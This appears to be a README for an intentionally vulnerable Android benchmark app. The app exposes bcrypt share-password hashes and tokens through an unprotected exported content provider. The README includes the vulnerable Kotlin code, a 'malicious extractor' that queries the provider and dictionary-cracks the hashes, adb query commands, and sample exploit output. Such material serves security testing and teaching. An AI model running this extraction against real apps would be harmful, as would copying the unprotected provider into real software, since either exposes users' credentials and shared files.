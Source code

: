 # oxo-android-ben69: Authentication Token and Password Hash Extraction via Content Provider

## Vulnerability Overview

Authentication Token and Password Hash Extraction occurs when Android applications store sensitive authentication data (bcrypt hashes, share tokens, session identifiers) in content providers without proper access controls, allowing malicious apps to extract authentication credentials for offline attacks and unauthorized access.

## Attack Vector: Content Provider Authentication Data Extraction

**Brief Explanation**: A cloud storage or collaboration app that exposes authentication tokens, bcrypt password hashes for shared files, and share identifiers through an unprotected content provider. Malicious apps can directly query the content provider to extract authentication data, enabling offline password cracking and bypassing server-side brute force protections.

**Key Characteristics:**
- Bcrypt password hashes stored in accessible content provider
- Authentication tokens and share identifiers exposed without permissions
- Direct content provider queries to extract sensitive authentication data
- Offline password cracking capability bypassing server protections
- Unauthorized access to password-protected shared resources

**Vulnerable Code Pattern:**
```kotlin
// VULNERABLE: Cloud storage app with exposed share authentication data
class MainActivity : ComponentActivity() {
    fun createShareWithPassword(shareUrl: String, password: String) {
        val bcryptHash = BCrypt.hashpw(password, BCrypt.gensalt(12))
        val shareToken = UUID.randomUUID().toString()
        val expirationTime = System.currentTimeMillis() + (24 * 60 * 60 * 1000) // 24 hours
        
        // VULNERABLE: Store sensitive authentication data in content provider
        val shareData = ShareData(
            token = shareToken,
            shareWith = bcryptHash,  // bcrypt password hash
            userId = getCurrentUserId(),
            expiration = expirationTime,
            shareUrl = shareUrl
        )
        
        // Store in vulnerable content provider
        storeShareData(shareData)
    }
}

// VULNERABLE: Exported share provider without permissions
<provider
    android:name=".providers.ShareContentProvider"
    android:authorities="com.cloudapp.shares"
    android:exported="true" />

class ShareContentProvider : ContentProvider() {
    override fun query(uri: Uri, projection: Array<String>?, selection: String?, 
                      selectionArgs: Array<String>?, sortOrder: String?): Cursor? {
        val cursor = MatrixCursor(arrayOf("_id", "token", "share_with", "user_id", "expiration"))
        // NO PERMISSION CHECK - Returns bcrypt hashes and tokens
        database.query("shares", null, null, null, null).use { dbCursor ->
            while (dbCursor.moveToNext()) {
                cursor.addRow(arrayOf(
                    dbCursor.getInt("id"),
                    dbCursor.getString("token"),        // Share identifier  
                    dbCursor.getString("share_with"),   // bcrypt password hash
                    dbCursor.getInt("user_id"),
                    dbCursor.getLong("expiration")
                ))
            }
        }
        return cursor
    }
}
```

**Malicious Extractor Code:**
```kotlin
// MALICIOUS: Extracts authentication data for offline attacks
class AuthenticationExtractorReceiver : BroadcastReceiver() {
    fun stealAuthenticationData(context: Context) {
        // Query vulnerable content provider for shares
        val shareUri = Uri.parse("content://com.cloudapp.shares/shares")
        val cursor = context.contentResolver.query(shareUri, null, null, null, null)
        
        cursor?.use {
            while (it.moveToNext()) {
                val shareId = it.getInt(it.getColumnIndex("_id"))
                val token = it.getString(it.getColumnIndex("token"))
                val bcryptHash = it.getString(it.getColumnIndex("share_with"))
                val userId = it.getInt(it.getColumnIndex("user_id"))
                val expiration = it.getLong(it.getColumnIndex("expiration"))
                
                // STOLEN: Authentication tokens and password hashes
                Log.d("AUTH_STOLEN", "Share ID: $shareId, Token: $token")
                Log.d("AUTH_STOLEN", "Bcrypt Hash: $bcryptHash")
                Log.d("AUTH_STOLEN", "User: $userId, Expires: $expiration")
                
                // Perform offline password cracking on extracted hashes
                performOfflineBruteForce(token, bcryptHash, userId)
            }
        }
    }
    
    private fun performOfflineBruteForce(token: String, hash: String, userId: Int) {
        // ATTACK: Offline password cracking bypassing server protections
        val commonPasswords = listOf("123456", "password", "admin", "qwerty", "letmein")
        
        commonPasswords.forEach { password ->
            if (BCrypt.checkpw(password, hash)) {
                Log.d("PASSWORD_CRACKED", "Token: $token, Password: $password")
                // Use cracked password with token for unauthorized access
                accessProtectedShare(token, password)
            }
        }
    }
}
```
## Testing

```bash
# Install the vulnerable cloud storage app
adb install -r oxo-android-ben69.apk

# Launch CloudShare Pro
adb shell am start -n com.cloudapp/.MainActivity

# Create shared files with password protection (use the app UI)
# This will generate bcrypt hashes and store them in the content provider

# Check if authentication data is accessible via content provider
adb shell content query --uri content://com.cloudapp.shares/shares

# Query specific share authentication data
adb shell content query --uri content://com.cloudapp.shares/shares/1

# Extract all bcrypt hashes and tokens
adb shell content query --uri content://com.cloudapp.shares/shares --projection token,share_with,user_id

# Simulate malicious app extracting authentication data
python3 exploit_auth_extraction.py

# Monitor for authentication data extraction in logs
adb logcat -s AUTH_STOLEN:D PASSWORD_CRACKED:D

# Verify content provider exports authentication data without permission checks
adb shell dumpsys package com.cloudapp | grep -A 10 "ContentProvider"
```

**Expected Results:**
```
Content Provider Query:
Row: 0 _id=1, token=abc123xyz789, share_with=$2b$12$xyz.../encrypted_hash, user_id=456, expiration=1693209600000
Row: 1 _id=2, token=def456uvw012, share_with=$2b$12$abc.../password_hash, user_id=789, expiration=1693296000000

Extracted Authentication Data:
Token: abc123xyz789
Bcrypt Hash: $2b$12$KIXQQgmTtGWqrPPKmynHLeFRvtUFXdI.Wh.RO8gzUGYjE7J4L2GN6
User ID: 456
Expiration: 1693209600000

Exploit Test Output:
[+] Authentication data found: 2 shares with bcrypt hashes
[+] Token extracted: abc123xyz789
[+] Hash extracted: $2b$12$KIXQQgmTtGWqrPPKmynHLeFRvtUFXdI.Wh.RO8gzUGYjE7J4L2GN6
[!] VULNERABILITY CONFIRMED: Authentication credentials exposed
[+] Starting offline password cracking...
[+] PASSWORD CRACKED: Token abc123xyz789, Password: admin123
```

**Difficulty**: Medium

## Impact Assessment

- **Confidentiality**: Critical - Complete exposure of authentication tokens and password hashes enabling unauthorized access
- **Integrity**: High - Compromised authentication can lead to unauthorized data modification and sharing
- **Availability**: Medium - Authentication bypass can lead to resource abuse and denial of service
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Authentication, M6 - Insecure Authorization
- **CWE**: CWE-200 (Information Exposure), CWE-256 (Unprotected Storage of Credentials), CWE-284 (Improper Access Control)

## Authentication Data Extraction Attack Scenarios

1. **Offline Password Cracking**: Extract bcrypt hashes for offline brute force attacks bypassing server protections
2. **Authentication Token Hijacking**: Steal share tokens to access password-protected content without passwords
3. **Credential Database Building**: Collect authentication data for password reuse attacks across services
4. **Corporate Data Breach**: Access business documents and shared files through extracted authentication data
5. **Privacy Violation**: Unauthorized access to personal files, photos, and sensitive documents

**Example Attack Flow:**
```bash
# 1. User creates password-protected shares in cloud storage app
# 2. App generates bcrypt hashes and stores them in content provider
# 3. Malicious app installs without requesting any special permissions
# 4. Malicious app queries content provider to extract all authentication data
# 5. Bcrypt hashes and tokens extracted for offline password cracking
# 6. Common passwords tested against hashes using offline tools
# 7. Cracked passwords combined with tokens for unauthorized share access
# 8. Complete bypass of server-side authentication and brute force protection
```

This vulnerability demonstrates how authentication mechanisms can be completely bypassed through content provider data exposure, enabling attackers to access password-protected content without triggering any server-side security measures.
